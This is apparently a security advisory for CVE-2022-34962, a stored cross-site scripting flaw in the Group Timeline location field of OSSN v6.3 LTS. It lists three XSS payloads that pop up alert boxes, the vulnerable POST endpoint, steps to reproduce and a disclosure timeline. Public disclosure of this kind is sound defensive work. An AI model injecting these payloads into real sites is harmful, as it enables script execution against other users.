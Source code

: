 # OpenTeknik LLC OSSN OPEN SOURCE SOCIAL NETWORK v6.3 LTS

### Vulnerability Explanation:
OpenTeknik LLC OSSN OPEN SOURCE SOCIAL NETWORK v6.3 LTS was discovered to contain a stored cross-site scripting (XSS) vulnerability via the `Group Timeline` module.

### Attack Vectors:
The attacker must post something on the `Group Timeline` and insert the XSS payload at the location input in order to exploit the stored XSS. The XSS payload will be launched immediately after submission.

### Affected: 
- http://ip_address:port/ossn/group/{number} 

- POST /ossn/action/wall/post/g?ossn_ts=1656419377&ossn_token=c0ee6b52f853a5073679f7a82372a0726a6a6e7d5500ec372fef9341f1e45e21

### Payload :
1. `<img/&#09;&#10;&#11; src=~ onerror=prompt('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

2. `<BODY ONLOAD=alert('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

3. `<img src=x onerror=confirm('Grim-The-Ripper-Team-by-SOSECURE-Thailand')>`

### Tested on: 
1. OSSN v6.3 LTS (https://github.com/opensource-socialnetwork/opensource-socialnetwork/releases/tag/6.3)

2. Google Chrome Version 102.0.5005.115 (Official Build) (x86_64)

### Steps to attack:
1. Login with username and password. (If you don't have an account, you can register)
2. Go to a "Groups". (If you don't have any groups, you can click on the "Add Group" button to create one.)
3. Enter data in the data entry form.
4. Click on the location button and enter the XSS payload.
5. The XSS payload will run immediately.

### Discoverer:
:shipit: Grim The Ripper Team by SOSECURE Thailand

### Medium:
- https://grimthereaperteam.medium.com/cve-2022-34962-ossn-6-3-lts-stored-xss-vulnerability-at-group-timeline-6ebe28dd6034

### Disclosure Timeline:
- 2022–06–28: Vulnerability discovered.
- 2022–06–28: Vulnerability reported to the MITRE corporation.
- 2022–07–08: CVE has been reserved.
- 2022–07–08: Public disclosure of the vulnerability.

Reference:
1. https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-34962
2. https://www.opensource-socialnetwork.org/
3. https://github.com/opensource-socialnetwork/opensource-socialnetwork/releases/tag/6.3
4. https://www.openteknik.com/contact?channel=ossn
